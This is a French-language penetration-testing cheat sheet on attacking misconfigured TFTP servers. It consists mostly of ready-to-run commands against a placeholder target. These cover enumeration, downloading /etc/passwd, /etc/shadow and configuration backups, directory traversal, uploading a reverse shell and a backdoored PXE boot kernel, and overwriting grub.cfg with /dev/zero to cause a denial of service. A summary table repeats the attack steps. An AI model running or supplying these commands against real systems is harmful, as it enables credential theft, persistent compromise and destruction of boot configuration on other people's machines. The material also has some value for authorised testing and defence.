

Le protocole **TFTP (Trivial File Transfer Protocol)** est utilisé pour transférer des fichiers entre systèmes, notamment pour les mises à jour de firmware, la sauvegarde de configurations et le déploiement **PXE**. Le protocole ne nécessite pas d'authentification, ce qui peut permettre l'exfiltration et l'injection de fichiers sensibles en cas de mauvaise configuration.



> [!warning] Attention
> **TFTP** utilise **UDP**, les scans peuvent être imprécis ou bloqués par des firewalls.

> [!danger] Danger
> L'upload de fichiers peut écraser des fichiers système critiques et causer un **DoS**.

> [!info] Condition critique
> Le succès dépend entièrement des permissions de lecture/écriture sur le répertoire racine du serveur.

> [!note] Prérequis
> Nécessite souvent une wordlist spécifique aux équipements réseau (Cisco, etc.).

## Détection du Service TFTP

### Scanner TFTP avec Nmap

```bash
nmap -sU -p 69 --script=tftp-enum target.com
```

Sortie attendue :

```text
69/udp open  tftp
| tftp-enum:
|   /configs/router.conf
|   /firmware/update.bin
```

### Vérifier si le Port 69 est Ouvert

```bash
nc -u -z target.com 69
```

## Lister les Fichiers Disponibles

Le protocole **TFTP** ne possède pas de commande native de listing, mais certains serveurs exposent des fichiers connus.

### Tenter un Téléchargement de Fichiers Courants

```bash
tftp target.com
get router.conf
get firmware.bin
```

### Lister les Fichiers Connus avec une Wordlist

```bash
for file in $(cat wordlist.txt); do
    echo "get $file" | tftp target.com
done
```

## Télécharger un Fichier Sensible

Un serveur **TFTP** mal sécurisé permet d'accéder à des configurations et mots de passe.

### Télécharger un Fichier Précis

```bash
tftp target.com
get /etc/passwd
get /var/backups/config.tar.gz
```

### Télécharger un Fichier avec atftp

```bash
atftp -g -r config.txt target.com
```

## Techniques de bypass de restrictions de chemin (directory traversal)

Si le serveur TFTP est configuré avec un répertoire racine (chroot), il est possible de tenter une évasion en utilisant des séquences de traversée de répertoire pour accéder à des fichiers hors du répertoire racine.

```bash
tftp target.com
get ../../../etc/passwd
get ../../../etc/shadow
```

## Analyse des fichiers récupérés (ex: extraction de hashs/mots de passe)

Une fois les fichiers récupérés, une analyse post-exploitation est nécessaire pour identifier des identifiants ou des configurations sensibles (voir **Post-Exploitation File Analysis**).

```bash
# Extraction de hashs depuis un fichier de configuration Cisco
grep -r "password" .
# Analyse de fichiers de configuration système
cat config.txt | grep -E "user|pass|secret"
```

## Injecter un Fichier Malveillant

Si le serveur **TFTP** autorise l'écriture, un attaquant peut modifier un fichier système ou déposer un shell.

### Tester l'Upload d'un Fichier

```bash
tftp target.com
put reverse_shell.sh
```

### Uploader un Fichier avec atftp

```bash
echo "pwned" > test.txt
atftp -p -l test.txt -r test.txt target.com
```

## Impact sur la disponibilité (DoS par saturation du service)

L'écriture répétée de fichiers volumineux ou l'écrasement de fichiers de configuration critiques peut rendre le service ou le système cible indisponible.

```bash
# Tentative d'écrasement d'un fichier critique (Danger)
tftp target.com
put /dev/zero /boot/grub/grub.cfg
```

## Vérifier les Permissions et Accès

Certains serveurs **TFTP** permettent l'accès à des fichiers critiques, y compris des backups de configuration réseau.

### Vérifier si des Fichiers Config Réseau Sont Exposés

```bash
tftp target.com
get /tftpboot/network.conf
get /tftpboot/switch_backup.cfg
```

## Exploiter un Boot PXE Mal Configuré

**TFTP** est souvent utilisé pour le démarrage **PXE** sans authentification, permettant à un attaquant d'injecter une image malveillante (voir **PXE Boot Exploitation**).

### Vérifier la Présence d'un Boot PXE

```bash
tftp target.com
get pxelinux.cfg/default
```

### Modifier une Image de Boot

```bash
tftp target.com
put backdoor_kernel.img
```

## Nettoyage des traces (log clearing)

Il est impératif de supprimer les fichiers temporaires déposés lors des tests d'intrusion pour éviter de laisser des traces sur le serveur cible.

```bash
tftp target.com
# Si le serveur autorise la suppression (rare) ou l'écrasement par un fichier vide
put empty_file.txt reverse_shell.sh
```

## Résumé des Commandes

| Étape | Commande |
| :--- | :--- |
| Scanner TFTP | `nmap -sU -p 69 --script=tftp-enum target.com` |
| Vérifier si TFTP est ouvert | `nc -u -z target.com 69` |
| Télécharger un fichier connu | `tftp target.com` → `get config.txt` |
| Lister les fichiers avec une wordlist | `for file in $(cat wordlist.txt); do echo "get $file" \| tftp target.com; done` |
| Télécharger un fichier avec **atftp** | `atftp -g -r config.txt target.com` |
| Uploader un fichier malveillant | `tftp target.com` → `put reverse_shell.sh` |
| Tester un Boot PXE mal sécurisé | `tftp target.com` → `get pxelinux.cfg/default` |

Voir également : **Network Enumeration**, **File Transfer Techniques**, **PXE Boot Exploitation**, **Post-Exploitation File Analysis**.